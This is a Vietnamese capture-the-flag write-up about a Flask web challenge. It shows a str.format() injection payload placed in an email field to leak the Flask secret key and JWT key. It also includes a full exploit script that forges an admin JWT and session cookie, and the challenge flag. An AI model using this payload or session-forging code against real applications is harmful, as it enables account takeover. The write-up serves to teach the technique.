






ứng dụng có 4 feature: `register, login, change-email, view-log`

login được thì tạo 1 session dạng jwt


flag nằm ở route `/admin`


hmm, có vẻ chúng ta cần lấy được jwt thỏa mãn của admin

và bài này mình thật sự bí trong thời gian diễn ra giải, khi end giải mình có tham khảo wu của một số player và đây là cách mình hiểu về nó



dòng 68 def `timestamp` được truyền trực tiếp vào `format()`. Ở đây theo wu thì nó dính lỗi gọi là `Format string vulnerability`. Nghĩa là nếu trong` format()` nó truyền vào 1 `function` hay `def` thì có thể lợi dụng để đọc được các biến `global` nằm trong file chứa `function` hay `def` đó. Và có thể là đọc được thêm nhiều thông tin liên quan(ở bài này mình đề cập tới vấn đề đọc được` global`)

đọc thêm tại bài viết [này](https://lucumr.pocoo.org/2016/12/29/careful-with-str-format/)

payload: 

new-email= `{timestamp.__globals__}'@xxx.com`

login lại với email mới ta thu được `FLASK_SECRET_KEY` và `jwt_key`



mình nhờ chatGPT viết script tạo jwt với user admin

```
import requests
from itsdangerous.timed import TimestampSigner
from datetime import datetime, timedelta
import re
import hashlib
import json
from flask.sessions import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer, BadSignature
import datetime
import jwt
import html

# BASE_URL = "http://localhost:1337"
BASE_URL="http://chal.competitivecyber.club:1337"


class APIClient:
    def __init__(self):
        # Create a session object to persist the cookies and auth across requests
        self.session = requests.Session()

    def login(self, email, password):
        url = f"{BASE_URL}/api/login"
        data = {"email": email, "password": password}
        response = self.session.post(url, json=data)
        if response.status_code == 200:
            print("Logged in successfully")
            return True
        else:
            print(f"Login failed: {response.status_code} - {response.text}")
            return False

    def register(self, email, password):
        url = f"{BASE_URL}/api/register"
        data = {"email": email, "password": password}
        response = self.session.post(url, json=data)
        if response.status_code == 200:
            print("Registered successfully")
            return True
        else:
            print(f"Registration failed: {response.status_code} - {response.text}")
            return False

    def update_email(self, new_email):
        url = f"{BASE_URL}/api/update-email"
        data = {"email": new_email}
        response = self.session.post(url, json=data)
        if response.status_code == 200:
            print("Email updated successfully")

            return True
        else:
            print(f"Update email failed: {response.status_code} - {response.text}")
            return False

    def view_logs(self):
        url = f"{BASE_URL}/api/view-logs"
        response = self.session.get(url)
        if response.status_code == 200:
            logs = response.json()
            return logs
        else:
            print(f"Failed to retrieve logs: {response.status_code} - {response.text}")
            return None


def create_JWT(email: str, role, jwt_key):
    # Sử dụng datetime.timezone.utc thay vì datetime.UTC
    utc_time = datetime.datetime.now(datetime.timezone.utc)
    token_expiration = utc_time + datetime.timedelta(minutes=1000)
    data = {"email": email, "exp": token_expiration, "role": role}
    encoded = jwt.encode(data, jwt_key, algorithm="HS256")
    return encoded


def verify_JWT(token, jey_key):
    try:
        token_decode = jwt.decode(token, jwt_key, algorithms="HS256")
        return token_decode
    except:
        return abort(401, "Invalid authentication token!")


def forge_flask_session(secret_key, data):
    serializer = TaggedJSONSerializer()
    signer = URLSafeTimedSerializer(
        secret_key,
        salt="cookie-session",
        serializer=serializer,
        signer=TimestampSigner,
        signer_kwargs={"key_derivation": "hmac", "digest_method": hashlib.sha1},
    )
    return signer.dumps(data)


def get_flag(session):
    url = f"{BASE_URL}/admin"
    response = requests.get(url, cookies={"session": session})
    if response.status_code == 200:
        print(response.text)
    else:
        print(f"Failed to retrieve flag: {response.status_code} - {response.text}")


if __name__ == "__main__":
    client = APIClient()

    email = "khiemdeptrai1@example.com"  # Replace with actual email
    password = "1"  # Replace with actual password
    client.register(email, password)
    if client.login(email, password):
        # 2. Optionally, register a new user
        new_email = "{timestamp.__globals__}'@concac2.com"  # Replace with actual new email

        # 3. Update email
        client.update_email(new_email)
        client.login(new_email, password)
        # 4. View logs
        logs = client.view_logs()
        for log in logs:
            print(html.unescape(log["log_text"]))

        jwt_key = input("jwt key >")
        flask_secret = input("flask secret >")
        jwt = create_JWT(new_email, "admin", jwt_key)

        session = forge_flask_session(flask_secret, {"auth": jwt})

        get_flag(session)

```

powww



FLAG: `pctf{str_f1rm4t_1s_k1nd8_c00l_7712817812}`

1 chall khá hay, mình học thêm được về format() vulnerability